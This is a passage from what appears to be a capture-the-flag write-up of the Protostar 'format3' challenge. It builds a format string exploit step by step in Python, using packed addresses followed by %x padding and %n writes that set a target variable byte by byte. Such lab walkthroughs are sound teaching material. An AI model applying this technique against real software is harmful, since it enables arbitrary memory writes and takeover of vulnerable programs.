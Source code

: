 Through some testing we can see that our input is the 12th value on the stack. Looking back at the value required in the disassembly we see that the final byte needs to be 0x44 or 68 so we can add that as padding and try writing it to the first address.

```python
import struct
address = 0x080496f4
exploit = ""
for i in range(4):
    exploit += struct.pack("I", 0x080496f4 + i)
exploit += "%12$52x%12$n"
# %12 will access the 12th value on the stack
# $52x will print that value with 52 bytes of padding
# 52 was chosen because 0x44 is 68 and 16 bytes have already been written so 68 - 16 = 52
# %12$n will access the 12th value on the stack and write the total number of bytes printed
print exploit
```

![format3_3](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format3_3.PNG)

Writing the output to a file and feeding that file to the challenge through gdb we can see that we have set the lowest byte to 0x44. On to the next byte.

```python
import struct
address = 0x080496f4
exploit = ""
for i in range(4):
    exploit += struct.pack("I", 0x080496f4 + i)
exploit += "%12$52x%12$n"
exploit += "%13$17x%13$n"
# %13 will access the 13th value on the stack
# 17 was chosen because 0x55 is 85 and we have already written 68 characters so 85 - 68 = 17
# %13$n will access the 13th value on the stack and write the total number of bytes printed
print exploit
```

![format3_4](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format3_4.PNG)

One more byte down. Now the next byte needs to be 0x02. How are we going to get 0x02 when we are already at 0x55 if %n writes the total number of bytes? Well we need to overflow that byte past 0xff. So we need to get to a total of 0x102 bytes written. This also happens to set the final byte to the proper value so this is the last step.

```python
import struct
address = 0x080496f4
exploit = ""
for i in range(4):
    exploit += struct.pack("I", 0x080496f4 + i)
exploit += "%12$52x%12$n"
exploit += "%13$17x%13$n"
exploit += "%14$173x%14$n"
print exploit
```
